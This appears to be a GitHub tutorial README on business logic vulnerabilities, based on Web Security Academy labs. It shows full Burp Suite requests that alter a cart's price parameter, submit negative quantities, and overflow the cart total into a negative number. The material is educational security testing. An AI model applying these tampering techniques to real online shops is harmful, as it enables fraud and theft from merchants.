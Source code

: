 ## Business logic vulnerabilities

Business logic vulnerabilities need manual intervention as No tool can detect these and they can vary from application to application and very hazardous. 
We have to understand application logic, application functionality, implementations, and business requirements. Whenever we intercept the request,
we have to manipulate specific parameters in the request or so to test for the business logic vulnerability


 ## Some common example of business logic:
 
 Manipulation in the product price in the request so we can purchase products in less amount during the online shopping.
 
 Manipulation in user-supplied input (too much quantity or –ve quantity) and not checked from the server-side.
 
 Manipulation in intended flow (2FA).
 
 ## 1. Manipulation in the product price in the request so we can purchase products in less amount during the online shopping.
 
 With Burp running, log in and attempt to buy the leather jacket. The order is rejected because you don't have enough store credit. 
 
 In Burp, go to "Proxy" > "HTTP history" and study the order process. Notice that when you add an item to your cart,
 the corresponding request contains a price parameter. Send the POST /cart request to Burp Repeater. 
 
 ## Request 
 
    POST /cart HTTP/1.1
    Host: 0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net
    Cookie: session=VQHFrZjrndyN8kEb1ivgOD4X9YydBrGB
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Origin: https://0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net
    Referer: https://0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net/product?productId=1
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    productId=1&redir=PRODUCT&quantity=1&price=133700
    
 ## Note That Show Price in request 
 
     productId=1&redir=PRODUCT&quantity=1&price=133700   
     
 So Change The Price and sand the request in server, like server is accept the request, here business logic vulnerabilities
 
 
 ## 2. High-level logic vulnerability
 
 Your card amount 100$ but you wante purchase 200$ product, buy 2 product first product price 50$ and secand product price 150$
 
 First Product nurp request sand burp repeter and  Observe that product quantity=1 so chnage the product guantity add -
 
 just like quantity=-2 and sand the request in server, accept the request, this is vulnerability 
 
 ## Request 
 
    POST /cart HTTP/1.1
    Host: 0ab6005b04eb8061c0d3246e00430049.web-security-academy.net
    Cookie: session=BC6C85CuO7OKzvT5oSjqsThv5qBb6Xap
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37
    Origin: https://0ab6005b04eb8061c0d3246e00430049.web-security-academy.net
    Referer: https://0ab6005b04eb8061c0d3246e00430049.web-security-academy.net/product?productId=2
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    productId=2&redir=PRODUCT&quantity=1
 
 Change The product header like quantity=1 so change quantity=-2
 
    productId=2&redir=PRODUCT&quantity=-2
    
 Your product price 100$ so buy know the product price 200$ but this is vulnerable so your product price 100$
     
     
 ## 3. Low-level logic flaw
 
 First Add 2 product, first product price is 100$, secand product price is 200$, Total price is 300$, 
 
 some appliction limited add product, so add unlimited product the price is less the price {-} so this is vulnerblity
 
 how to find, simple, On the "Payloads" tab, select the payload type "Null payloads". Under "Payload options", select "Continue indefinitely". Start the attack 
 
 While the attack is running, go to your cart. Keep refreshing the page every so often and monitor the total price. Eventually, notice that the price suddenly switches to a large negative integer
 
 ## This is Vulnerblity
 
 Create the same Intruder attack again, but this time, under "Payloads" > "Payload Options", choose to generate exactly 323 payloads. 
 
 Notice That the price is negative like {-1000$}, so add some product and price is positive {100$} so buy the product, This is Low-level logic flaw
  
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
  
